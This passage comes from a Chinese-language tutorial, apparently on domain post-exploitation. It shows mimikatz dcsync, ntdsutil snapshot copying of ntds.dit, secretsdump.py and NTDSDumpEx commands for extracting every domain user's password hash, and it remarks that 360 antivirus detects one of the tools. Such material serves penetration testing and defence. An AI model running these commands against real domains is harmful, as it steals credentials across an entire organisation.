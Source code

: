 方法二：通过 dcsync，利用目录复制服务（DRS）从 NTDS.DIT 文件中检索密码哈希值，可以在域管权限下执行获取：

```
#获取所有域用户
lsadump::dcsync /domain:test.com /all /csv

#指定获取某个用户的hash
lsadump::dcsync /domain:test.com /user:test


```

#### 3.2 导出域成员 Hash

Copy

域账户的用户名和 hash 密码以域数据库的形式存放在域控制器的

`%SystemRoot%\ntds\NTDS.DIT`

文件中。

这里可以借助：ntdsutil.exe，域控制器自带的域数据库管理工具，我们可以通过域数据库，提取出域中所有的域用户信息，在域控上依次执行如下命令，导出域数据库：

```
#创建快照
ntdsutil snapshot "activate instance ntds" create quit quit

#加载快照
ntdsutil snapshot "mount {72ba82f0-5805-4365-a73c-0ccd01f5ed0d}" quit quit

#Copy文件副本
copy C:\\$SNAP\_201911211122\_VOLUMEC$\\windows\\NTDS\\ntds.dit c:\\ntds.dit


```

将 ntds.dit 文件拷贝到本地利用 impacket 脚本 dump 出 Hash：

```
secretsdump.py -ntds.dit -system system.hive LOCAL


```

![](https://image.3001.net/images/20200304/15833020816765.png)

除了借助 python，还有一个 NTDSDumpEx（会被 360 查杀的哦）：

工具地址：[https://github.com/zcgonvh/NTDSDumpEx/releases](https://github.com/zcgonvh/NTDSDumpEx/releases)

```
NTDSDumpEx -d ntds.dit -o domain.txt -s system.hiv    (system.hive文件获取:reg save hklm\\system system.hive)
NTDSDumpEx -d ntds.dit -o domain.txt -r               (此命令适用于在域控本地执行)


```
